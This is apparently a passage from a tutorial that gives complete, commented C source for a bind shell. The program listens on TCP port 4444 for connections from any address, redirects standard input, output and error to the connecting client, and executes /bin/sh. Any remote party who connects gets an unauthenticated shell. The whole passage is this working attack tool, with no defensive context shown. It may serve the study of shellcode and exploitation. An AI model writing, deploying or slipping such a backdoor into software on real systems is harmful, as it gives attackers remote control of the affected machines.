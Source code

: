 
Complete code in C looks like this -

```c
#include <sys/socket.h> // For socket functions
#include <netinet/in.h>  // For sockaddr_in
#include <unistd.h>     // For dup2, execve, etc.
#include <stdio.h>      // For perror

int main(){
    int sockfd = socket(AF_INET, SOCK_STREAM, 0);
    // AF_INET indicates IPv4
    // SOCK_STREAM indicates TCP
    // 0 indicates default protocol (TCP for SOCK_STREAM)

    struct sockaddr_in server_addr;
    // sockaddr_in is a structure that contains an internet address
    server_addr.sin_family = AF_INET; // IPv4
    server_addr.sin_addr.s_addr = INADDR_ANY; // Accept connections from any IP address
    server_addr.sin_port = htons(4444); // Port number (4444) in network byte order

    // Bind the socket to the specified IP and port
    if (bind(sockfd, (struct sockaddr *)&server_addr, sizeof(server_addr)) < 0) {
        // Handle error
        perror("Bind failed");
        close(sockfd);
        return -1;
    }

    // Now the socket is bound to the IP and port
    // You can proceed to listen for incoming connections or perform other operations
    if(listen(sockfd, 1) < 0) {
        // Handle error
        perror("Listen failed");
        close(sockfd);
        return -1;
    }

    // Accept an incoming connection 
    struct sockaddr_in client_addr;
    socklen_t client_len = sizeof(client_addr);
    int clientfd = accept(sockfd, (struct sockaddr *)&client_addr, &client_len);
    if (clientfd < 0) {
        // Handle error
        perror("Accept failed");
        close(sockfd);
        return -1;
    }

    // Redirect standard input, output, and error to the accepted socket
    dup2(clientfd, 0); // stdin
    dup2(clientfd, 1); // stdout
    dup2(clientfd, 2); // stderr

    // Execute a shell
    char * const argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);

    // Close sockets (Only reached if execve fails)
    close(clientfd);
    close(sockfd);
    return 0;
}
```
